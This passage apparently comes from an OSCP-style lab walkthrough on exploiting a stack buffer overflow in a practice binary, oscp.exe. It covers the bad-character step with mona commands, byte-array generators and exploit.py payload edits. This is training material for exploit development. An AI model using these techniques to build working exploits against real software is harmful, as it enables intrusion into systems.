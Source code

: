 ```
!mona bytearray -b "\x00"
```

Now we need to replicate the exact same byte sequence for our string that we will subsequently send to the server. Access python3 shell and input the following print statement:

```
python3
print(''.join(f"\\x{x:02x}" for x in range(1, 256)))
```

Or better yet, use bash:

```
printf '\\x%02x' {1..255}
```

We need to copy the output and add it to the `payload` variable in `exploit.py`:

```
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09 ... xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Now restart `oscp.exe` binary in Immunity Debugger and run the exploit again. We need to copy the address that ESP register points to:

```
0197FA30
```

Because our generated bytearray was sent after the `retn` variable which overwrites `EIP` completely, which means that the bytearray starts at `ESP`. 

So to compare bytearrays and figure out which ones are bad, we need to run the following `mona` command:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0197FA30
```

The following bad chars were identified:

```
00 07 08 2e 2f a0 a1
```

In some cases bad chars cause the following bytes to get corrupted as well. So in this case `08` ( as a following byte to `07`), `2f` and `a1` might not be corrupted. We can figure it out, by regenerating new byte array excluding the chars, but including the `\x08\x2f\xa1`:

```
!mona bytearray -b "\x00\x07\x2e\xa0"
```

And in bash:

```
printf '\\x%02x' $(seq 1 255 | grep -Ev '^(7|46|160)$')
```

Insert the output into `payload` variable instead of what is there, rerun `oscp.exe` in Immunity Debugger and run the `exploit.py` again.
